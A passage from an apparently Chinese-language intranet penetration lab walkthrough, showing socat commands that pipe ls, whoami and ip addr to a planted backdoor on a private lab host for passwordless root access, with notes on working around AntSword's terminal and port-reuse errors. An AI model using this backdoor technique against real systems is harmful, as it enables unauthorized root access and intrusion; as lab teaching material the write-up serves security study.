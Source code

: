 ![49.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=76b4a26e-39da-40c0-b54d-61d888169d8e.png)

可无需密码获得目标主机`root`用户权限：

```
echo "ls" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526
echo "whoami" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526
echo "ip addr" | socat STDIO TCP4:172.26.0.30:22,sourceport=19526

```

这里因为中国蚁剑的模拟终端会自动的把进程放到后台，因此，无法直接在终端中与我们留下的后门进行命令交互，这里采用管道`|`的方法，把要执行的命令重定向到与后门的连接中，并返回执行后的结果：

注意：因为每执行一次命令需要连接我们的后门，然后执行命令，返回结果，因此在执行下个命令时，需要稍微等待几秒时间，等待上次连接关闭，然后才能继续执行命令，否则会出现如下图所示错误：`Address already in use`。

![52.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=7a7274a9-0c5f-4901-b236-236ffd960920.png)